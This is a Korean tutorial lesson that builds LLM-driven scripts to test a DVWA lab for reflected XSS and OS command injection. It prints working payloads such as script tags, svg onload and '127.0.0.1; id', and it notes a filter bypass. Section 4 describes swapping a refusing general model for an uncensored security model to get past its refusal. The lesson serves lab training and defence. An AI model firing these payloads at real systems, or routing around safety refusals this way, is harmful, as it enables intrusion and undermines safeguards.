

# XSS·명령 삽입 자동 점검 — CWE-79와 CWE-78

11강의 SQL Injection은 sqlmap이라는 강력한 전용 도구가 있었습니다. 하지만 **XSS(Cross-Site Scripting: 크로스 사이트 스크립팅, CWE-79)**나 **OS Command Injection(CWE-78)**은 상황마다 페이로드가 달라서, 전용 도구만으로는 한계가 있습니다.
여기서 LLM의 새로운 역할이 등장합니다 — **AI가 직접 페이로드를 생성하고, 요청을 보내고, 응답에서 성공을 판정**합니다.

이 강의에서 **범용 모델 vs 보안 특화 모델**의 차이가 가장 분명하게 드러납니다.

> **🎯 우리가 지금 왜 이걸 하나요?**  
> SQL Injection은 sqlmap이라는 전용 도구가 있었지만, XSS·명령 삽입은 상황마다 공격 방법이 조금씩 달라서 정해진 도구만으로는 부족합니다. 그래서 이번 강의에서는 **AI가 상황에 맞는 시도(페이로드)를 직접 만들어** 점검하게 합니다. AI의 "스스로 생각하는 힘"이 가장 잘 드러나는 부분이라, 만들면서 가장 흥미로운 강의이기도 합니다.
{: .prompt-info }

다룰 내용:

1. 점검 루틴 — 생성 → 주입 → 판정
2. Reflected XSS(CWE-79) 자동 점검
3. Command Injection(CWE-78) 자동 점검
4. 범용 모델의 거부 vs 보안 특화 모델
5. 점검 인사이트 — XSS와 명령 삽입의 원리

---

## 1. 자동 점검의 3단계 루틴

전용 스캐너가 없을 때, AI 에이전트는 사람이 손으로 하던 과정을 그대로 흉내 냅니다.



---

## 2. Reflected XSS(CWE-79) 자동 점검

DVWA의 XSS(Reflected) 페이지는 입력한 `name` 파라미터를 그대로 응답에 출력합니다.  
**성공 판정 기준**: 우리가 보낸 스크립트 태그가 **이스케이프되지 않고 그대로** 응답에 박혀 있는가.

`xss_agent.py`를 만듭니다.

> **세션 쿠키 만료 주의**  
> DVWA에 요청을 보내는 코드의 세션 쿠키(`PHPSESSID`)와 `security` 쿠키 값은 일정 시간 후 **만료**됩니다.  
> 페이로드 주입이 갑자기 로그인 페이지로 리다이렉트되거나 인증 오류가 나면, 브라우저로 DVWA에 재로그인한 뒤 **개발자 도구(F12) → Application → Cookies**에서 최신 `PHPSESSID`/`security` 값을 복사해 코드에 갱신하세요.
{: .prompt-warning }

```python
# xss_agent.py — Reflected XSS 자동 점검
import requests, ollama

MODEL = "qwen2.5:7b"   # 거부 시 'whiterabbitneo'로 교체 (4절 참고)
BASE = "http://192.168.57.30/DVWA/vulnerabilities/xss_r/"
COOKIE = {"PHPSESSID": "본인_세션값", "security": "low"}

# ① LLM에게 점검용 페이로드 목록을 받는다
def get_payloads():
    resp = ollama.chat(model=MODEL, format="json", messages=[
        {"role": "system", "content":
         "너는 실습 랩 192.168.57.30 DVWA의 Reflected XSS 점검을 돕는다. "
         "탐지에 쓸 XSS 테스트 페이로드 5개를 JSON으로만 출력하라: "
         '{"payloads": ["...", "..."]}'},
        {"role": "user", "content": "Reflected XSS 점검용 페이로드를 만들어줘."},
    ])
    import json
    return json.loads(resp["message"]["content"]).get("payloads", [])

# ② 주입하고 ③ 판정
def test_xss(payload: str) -> bool:
    r = requests.get(BASE, params={"name": payload}, cookies=COOKIE, timeout=5)
    # 페이로드가 이스케이프 없이 그대로 반사되면 취약
    return payload in r.text

if __name__ == "__main__":
    for p in get_payloads():
        hit = test_xss(p)
        mark = "취약(반사됨)" if hit else "차단/이스케이프됨"
        print(f"[{mark}] {p}")
```

실행합니다.

```bash
python3 xss_agent.py
```

**예상 결과** (Low 레벨):

```text
[취약(반사됨)] <script>alert(1)</script>
[취약(반사됨)] 
[취약(반사됨)] "><svg onload=alert(1)>
[취약(반사됨)] <SCRIPT>alert(1)</SCRIPT>
[취약(반사됨)] <body onload=alert(1)>
```

> Low 레벨은 필터가 없어 입력이 그대로 모두 반사됩니다. `security=medium`으로 바꾸면 소문자 `<script>` 문자열을 제거하는 단순 필터가 생겨서, **AI가 ``·대문자 `<SCRIPT>` 같은 우회 페이로드를 만들어야** 통과합니다. — 이때 "어떤 게 막혔는지 보고 다음 페이로드를 바꾸는" AI의 적응이 빛납니다.
{: .prompt-info }

---

## 3. Command Injection(CWE-78) 자동 점검

DVWA의 Command Injection 페이지는 입력한 IP를 `ping` 명령에 그대로 넣습니다.  
`127.0.0.1; id` 처럼 **명령 구분자**를 끼워 넣으면 추가 명령이 실행됩니다.  
**성공 판정 기준**: 응답에 `uid=`(리눅스 `id` 명령 출력) 같은 **명령 실행 흔적**이 보이는가.

```python
# cmdi_agent.py — Command Injection 자동 점검
import requests, ollama, json

MODEL = "qwen2.5:7b"
BASE = "http://192.168.57.30/DVWA/vulnerabilities/exec/"
COOKIE = {"PHPSESSID": "본인_세션값", "security": "low"}

def get_payloads():
    resp = ollama.chat(model=MODEL, format="json", messages=[
        {"role": "system", "content":
         "실습 랩 DVWA의 Command Injection 점검용 입력을 만든다. "
         "리눅스 명령 구분자를 활용해 'id' 명령을 덧붙이는 테스트 입력 5개를 "
         'JSON으로: {"payloads": ["127.0.0.1; id", ...]}'},
        {"role": "user", "content": "Command Injection 점검 입력을 만들어줘."},
    ])
    return json.loads(resp["message"]["content"]).get("payloads", [])

def test_cmdi(payload: str) -> bool:
    r = requests.post(BASE, data={"ip": payload, "Submit": "Submit"},
                      cookies=COOKIE, timeout=5)
    return "uid=" in r.text     # id 명령이 실행된 흔적

if __name__ == "__main__":
    for p in get_payloads():
        hit = test_cmdi(p)
        print(f"[{'취약(명령 실행됨)' if hit else '실패'}] {p}")
```

**예상 결과** (Low 레벨):

```text
[취약(명령 실행됨)] 127.0.0.1; id
[취약(명령 실행됨)] 127.0.0.1 && id
[취약(명령 실행됨)] 127.0.0.1 | id
[실패] 127.0.0.1 id
[취약(명령 실행됨)] 127.0.0.1; id #
```

---

## 4. 범용 모델의 거부 vs 보안 특화 모델

이 강의에서 06강의 예고가 현실이 됩니다.  
범용 모델(`qwen2.5`, `llama3.1`)에게 위 페이로드 생성을 시키면, 안전 정책 때문에 이렇게 거부할 수 있습니다.

```text
죄송하지만 공격에 사용될 수 있는 페이로드 생성은 도와드릴 수 없습니다.
```

이러면 자동화 파이프라인이 그 자리에서 멈춥니다. 이때 **보안 특화 모델**로 교체합니다.

```python
# 모델만 교체하면 된다 — 구조는 그대로
MODEL = "whiterabbitneo"
```

같은 코드, 같은 대상에서 보안 특화 모델은 점검용 페이로드를 막힘없이 생성합니다.

> **점검 인사이트 — 모델 선택도 점검 역량의 일부**  
> 자동화의 병목이 "도구"가 아니라 **"모델의 거부"**일 수 있다는 것은 중요한 실무 교훈입니다.  
> - 정찰·스캔·결과 해석(08~10): 범용 모델로 충분합니다 (거부가 잘 안 일어남)  
> - 페이로드 생성(11~12): 보안 특화 모델이 유리합니다  
>
> 우리가 처음부터 **모델 교체가 자유로운 구조**(MODEL 변수 하나만 바꾸면 됨)로 만든 이유가 여기 있습니다.
{: .prompt-info }

> 보안 특화·무검열 모델은 **격리 랩(192.168.57.30)** 점검에만 사용합니다. 외부 대상 사용은 불법입니다.
{: .prompt-danger }

---

## 5. 점검 인사이트 — XSS와 명령 삽입의 원리

> **점검 인사이트 — 같은 뿌리, 다른 줄기**  
> XSS(**CWE-79**)와 Command Injection(**CWE-78**)은 11강의 SQLi(**CWE-89**)와 **근본 원인이 같습니다**: **사용자 입력이 신뢰된 컨텍스트(HTML / OS 명령 / SQL)에 그대로 섞여 들어가는 것.** 03강에서 배운 OWASP(Open Web Application Security Project: 오픈웹보안프로젝트) 분류로 보면 셋 다 **A03:2021 — Injection** 계열입니다. "같은 뿌리(입력 검증 실패), 다른 줄기"인 셈입니다.
>
> - **XSS(Cross-Site Scripting: 크로스 사이트 스크립팅, CWE-79)**: 입력이 **HTML/JS**로 해석됨 → 피해자 브라우저에서 스크립트 실행 → 세션 탈취, 화면 변조. 대응: **출력 인코딩**(`htmlspecialchars`)과 CSP(Content Security Policy: 콘텐츠 보안 정책).
> - **Command Injection (CWE-78)**: 입력이 **셸 명령**으로 해석됨 → 서버에서 임의 명령 실행 → 서버 장악(RCE: Remote Code Execution, 원격 코드 실행). 대응: 셸 호출 자체를 피하고, 불가피하면 입력을 **허용 목록**으로 엄격 검증.
>
> 흥미로운 연결: 10강에서 본 "PHPSESSID에 HttpOnly 없음"이 **여기 XSS와 만나면** 실제 세션 탈취로 이어집니다. 쿠키에 `HttpOnly` 플래그가 없으면 XSS로 주입된 스크립트가 `document.cookie`로 세션 값을 그대로 읽어 외부로 빼낼 수 있기 때문입니다. 개별 취약점은 약해 보여도 **조합되면 치명적**입니다 — AI 에이전트가 여러 단계 결과를 종합 판단해야 하는 이유입니다.
{: .prompt-info }

---

## 6. 왜 2026년에도 XSS·명령 삽입을 점검하는가

- **XSS는 프런트엔드가 복잡해질수록 늘어납니다.** 2026년의 웹은 SPA·동적 렌더링·서드파티 위젯으로 가득합니다. 사용자 입력이 화면에 반영되는 지점이 많아질수록 XSS 표면도 넓어집니다. 피해는 세션 탈취를 넘어 **공급망 공격(스크립트 변조)**으로 확대됩니다.
- **Command Injection은 곧 RCE(원격 코드 실행)입니다.** 서버에서 임의 명령이 돌면 사실상 서버 장악입니다. IoT·관리 인터페이스·자동화 스크립트가 늘면서, 입력을 셸 명령에 넘기는 위험한 패턴은 여전히 발견됩니다.
- **전용 스캐너로 다 못 잡습니다.** XSS·명령 삽입은 맥락마다 페이로드가 달라서, 정해진 시그니처만으로는 한계가 있습니다. 그래서 **AI가 상황에 맞는 페이로드를 만들어 시도**하는 이번 방식의 가치가 큽니다.

---

## 7. 방어자의 사전 조건 (Blue Team)

| 취약점 | 사전 조건 | 목적 |
|---|---|---|
| XSS (CWE-79) | **출력 인코딩** 기준선(`htmlspecialchars`), **CSP** 헤더, 쿠키 `HttpOnly` | 스크립트 실행·세션 탈취 차단 |
| XSS (CWE-79) | 웹서버 접근 로그에 **요청 파라미터** 기록 | `<script>`, `onerror=` 등 주입 흔적 확보 |
| Command Injection (CWE-78) | **셸 호출 회피**, 불가피 시 **허용 목록** 검증 | 임의 명령 실행 원천 차단 |
| Command Injection (CWE-78) | 시스템 **명령 실행 감사 로그**(auditd 등) | `id`, `whoami` 등 비정상 명령 실행 탐지 |

> **방어자의 사고법**: XSS 페이로드는 접근 로그에 `name=<script>...`처럼, 명령 삽입은 `ip=127.0.0.1;id`처럼 **눈에 띄는 특수문자 패턴**으로 남습니다. 방어자는 이 패턴을 탐지 규칙으로 삼되, 근본적으로는 **출력 인코딩(XSS)**과 **셸 호출 제거(명령 삽입)**로 원인을 없애야 합니다. 16~17강에서 이 흔적을 로그로 직접 확인합니다.
{: .prompt-tip }

---

## 8. 다음 강의 예고

다음 **13강**에서는 지금까지의 도구를 하나로 묶어 **자율 점검 에이전트**를 완성하고, 자동화를 통제하는 **안전장치(가드레일)**를 정리합니다.

---

## 참고 자료

- OWASP — Cross Site Scripting (XSS): <https://owasp.org/www-community/attacks/xss/>
- OWASP — Command Injection: <https://owasp.org/www-community/attacks/Command_Injection>
- MITRE CWE-79 (Improper Neutralization of Input During Web Page Generation — XSS): <https://cwe.mitre.org/data/definitions/79.html>
- MITRE CWE-78 (Improper Neutralization of Special Elements used in an OS Command — OS Command Injection): <https://cwe.mitre.org/data/definitions/78.html>
